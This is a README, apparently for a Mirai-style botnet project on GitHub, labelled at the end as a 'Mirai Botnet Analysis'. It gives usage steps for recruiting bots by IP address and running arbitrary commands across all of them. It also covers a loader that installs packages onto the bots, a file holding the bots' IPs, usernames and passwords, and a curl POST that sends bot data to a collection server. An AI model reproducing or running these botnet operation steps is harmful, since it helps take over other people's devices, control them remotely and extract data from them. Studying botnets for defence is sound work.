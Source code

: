 # MiraiBotNet

## prerequisites

 - mongoDB 
 - pip

```bash
# chmod +x init.sh
# ./init.sh
# cd botnet/
# pip install -r requirement.txt  
```
## Usage 

### To get the bots
```bash
# cd botnet/
# ./run.sh <ip> 
  eg:- # ./run.sh 192.168.31.X 
```

### To run the command accross all the bots
```bash
# cd botnet/
# ./command.sh <cmd> 
  eg:- # ./command.sh "ls;ping www.google.com"
```
## Loader

### To add a package:
```bash
# cd loader/getDependencies
```
#### add the package name to packages.txt
#### Run : 
```bash
# python3 getter.py
```
#### dependencies will be added to neededDependencies.txt

### To start loader:
```bash
# cd loader/install
# python3 installer.py &
```
#### Logs will be present at logs/loader.log

## Information
### userPassIPFile.txt file contains the IP,Username,Password of the bots. 
 
### to get data from bots
```
curl --header "Content-Type: application/json" --request POST --data '{"ip":"192.168.31.254","data":"this is data entered bla"}' http://192.168.31.32:5000/receiveData
```


PW20RJS01 - Mirai Botnet Analysis
